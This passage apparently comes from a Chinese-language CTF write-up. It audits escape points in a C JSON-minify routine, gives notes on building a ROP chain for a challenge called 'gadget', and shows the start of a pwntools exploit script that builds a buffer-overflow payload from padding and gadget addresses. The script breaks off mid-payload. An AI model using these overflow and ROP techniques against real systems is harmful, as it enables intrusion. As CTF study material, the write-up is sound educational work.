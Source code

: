 ```c
            {
                if (*json == '\\') *into++ = *json++;
                *into++ = *json++;
            }
            *into++ = *json++;
        }// string literals, which are \" sensitive.
        else *into++ = *json++; // All other characters.
    }
    *into = 0; // and null-terminate.
}
```
在google找到了源码，大致比对一下，意义是一样的。对着c语言审计，有两个逃逸的地方`/*`,`"\`，他们都会逃逸`\x00\x00`的字符串边界。

### gadget

* 算是五段rop，花了大概三个小时。
* call 指令，接受的直接要执行的地址，而不是接受指向要执行的地址的指针
* `call addr`与 `pop reg ; ret`结合可以作为了gadget，构造rop
* `asm("int 0x80") => '\xcd\x80'`和`asm("syscall") => '\x0f\x05'`，明显编码不同
* 出题人应该通过内联汇编的形式加入了0x80号终端的gadget。
* 32位时没有没有r数字的寄存器。所以对于64位下那些关于rn的寄存器的机器码在32位下就可能引发错误。

```python
#!/usr/bin/env python
import time
from pwn import *

local = 1
debug = 0
binary = "./gadget"
lib = "/lib/x86_64-linux-gnu/libc.so.6"
elf = ELF(binary)
context.log_level = "debug" if debug else "info"

if local:
    # p = process(binary)
    libc = ELF(lib)
else :
    p = remote()
    lib = "./libc.so.6"
    libc = ELF(lib)

s      = lambda buf        : p.send(buf)
sl     = lambda buf        : p.sendline(buf)
sa     = lambda delim, buf : p.sendafter(delim, buf)
sal    = lambda delim, buf : p.sendlineafter(delim, buf)
sh     = lambda            : p.interactive()
r      = lambda n=None     : p.recv(n)
ru     = lambda delim      : p.recvuntil(delim)
r7f    = lambda            : u64(p.recvuntil("\x7f")[-6:]+"\x00\x00")
trs    = lambda addr       : libc.address+addr
gadget = lambda ins        : libc.search(asm(ins,arch="amd64")).next()
tohex  = lambda buf        : "".join("\\x%02x"%ord(_) for _ in buf)


def pwn(p,index,offset):
	bss = 0x40c000
	payload = ""
	payload += "A"*0x30
	payload += "B"*8

	# A preparation in bss+0x1000-0x500
	payload += p64(0x0000000000401734) # : pop rdi ; pop rbp ; ret
	payload += p64(bss+0x1000-0x500)
```